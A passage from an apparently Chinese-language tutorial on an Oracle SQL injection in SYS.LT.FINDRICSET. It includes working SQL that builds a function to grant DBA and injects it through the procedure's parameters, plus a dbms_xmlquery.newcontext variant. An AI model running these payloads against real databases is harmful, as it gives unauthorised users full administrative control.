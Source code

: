 这个函数又调用了`SYS.LTRIC.FINDRICSET`，定义如下：


``` sql
PROCEDURE FINDRICSET( IN_TABLE_OWNER VARCHAR2, IN_TABLE_NAME VARCHAR2,  
RESULT_TABLE_OWNER VARCHAR2, RESULT_TABLE VARCHAR2 )  
... 
EXECUTE IMMEDIATE 'insert into wmsys.wm$ric_set_in values ( ''' || IN_TABLE_OWNER || ''',''' || IN_TABLE_NAME || ''' )'; 
```

`IN_TABLE_OWNER`和`IN_TABLE_NAME`直接动态拼接到SQL语句中，是可以注入的点

我们自己创建一个赋权的存储进程，然后闭合SQL语句，在参数处调用存储进程

被注入后的sql语句应该是这样的


![1609742583068.png](https://i.loli.net/2021/03/06/lzvgTm4tkHPrOaC.png)


（图上稍微有点问题，不过大概就是这意思）

``` sql
EXECUTE IMMEDIATE 'insert into wmsys.wm$ric_set_in values (''A'',''A''||TEST2.GET_DBA) --' )';
```


#### (2) 利用


``` sql
-- 注意修改其中的用户名
create or replace function get_dba return varchar2 authid current_user is PRAGMA autonomous_transaction;
BEGIN 
execute immediate 'grant dba to test2';
commit;
return 'z';
END; 
/
begin 
sys.lt.findricset('A.A''||test2.get_dba) --','BBBB');
commit;
end;
/
```

![1609650560642.png](https://i.loli.net/2021/03/06/gsYk1omWUE5ljH3.png)

成功获取DBA：

![1609650577146.png](https://i.loli.net/2021/03/06/Qyl5GqEXZRHDxpO.png)

注入环境中可使用`dbms_xmlquery.newcontext`来执行：

``` sql
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace function get_dba return varchar2 authid current_user is PRAGMA  
autonomous_transaction;BEGIN execute immediate ''''grant dba to hellove'''';commit;return ''''z'''';END; ''; commit; end;')  
from dual;

select dbms_xmlquery.newcontext('declare PRAGMA  
AUTONOMOUS_TRANSACTION;begin sys.lt.findricset(''A.A''''||hellove.get_dba)--'',''BBBB'');commit;end;') from dual;
```
